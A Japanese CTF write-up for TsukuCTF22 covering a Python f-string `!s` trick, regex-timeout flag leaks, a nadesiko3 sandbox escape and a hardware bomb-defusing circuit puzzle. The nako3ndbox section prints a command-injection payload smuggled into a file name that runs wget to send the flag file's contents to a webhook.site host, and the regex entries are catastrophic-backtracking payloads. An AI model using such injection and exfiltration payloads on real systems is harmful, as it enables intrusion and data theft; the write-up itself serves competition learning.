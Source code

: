 その後 Ark さんが https://docs.python.org/ja/3.8/library/string.html#formatstrings を見つけてくれた。フォーマット書式の最後に `!r` や `!s` をつけることで repr や str を表示するようになるらしい。
ということで `f"{flag!s}"` と送信することでフラグが表示された。

`TsukuCTF22{wh4ts_new_1n_pyth0n_3X}`

## [Misc] soder
フラグにマッチしたらタイムアウトさせる。
`<FLAG>(((((((.*)*)*)*)*)*)*)!`や`^(?=<FLAG>)((.*)*)*salt$`を使った。

`TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l5}`

## [Misc] nako3ndbox
なでしこのバージョンが3.3.67だが、[3.3.69でRCEが修正されている](https://github.com/kujirahand/nadesiko3/releases/tag/3.3.69)。このテストに従って、ペイロードを構築する。wgetでwebhook.siteに投げた（が、エラーメッセージにも出力された）。

```
TMP="/tmp";FILE=「{TMP}/\'a\'`wget https://webhook.site/c9b1585a-dc47-4d43-b883-3af88ea899b8?$(cat fla*)`\'c」;ZIP=「{TMP}/test.zip」;FILEをZIPに圧縮。
```

`TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}`

## [Hardware] DefuseBomb
スイッチが ON/OFF いずれのときにも爆弾が1にならないように回路を切断する問題。
#### 1つ目
TC74HC02AP は [NOR](https://toshiba.semicon-storage.com/info/TC74HC02AP_datasheet_ja_20140301.pdf?did=6965&prodName=TC74HC02AP)
TC74HC08AP は [AND](https://toshiba.semicon-storage.com/info/TC74HC08AP_datasheet_ja_20140301.pdf?did=7496&prodName=TC74HC08AP)

AND1ピンが GND なので AND3ピンが常に0。よって NOR3ピンも常に0
→NOR2ピンが ON/OFF かで bomb の OFF/ON が決まる
NOR2ピンを決める NOR10ピンがスイッチ ON/OFF にかかわらず1であることが必要
→NOR8, 9が常に0
→切るべきは4番
#### 2つ目
limit timer がONになって爆発する原理は、
Q3Q4を縦に電流が流れるようになり、Q8 1ピンがGNDになり、Q8の縦に電流が流れなくなる
→当然Q7の縦にも電流が流れない
→bomb が1となり、終わり
なので、切るべきは4番。
4番を切ってもQ7の縦に電流は流れるので問題なし。
#### 3つ目
見たことのない拡張子のファイルがたくさんあるが、調べて見るとガーバーデータというものであることがわかる。これを表示するために gerbv というものをインストールし、すべてのファイルを開くと以下のような回路が表示される。
![](https://i.imgur.com/uTFtlt2.png)
☓のようになっている部分が GND っぽい。
- bomb が爆発しないようにするには、4ピン5ピンがどちらも1でないとだめ
- 5ピンは4番を切らない限りは常に1 (∵9ピンが常に0)
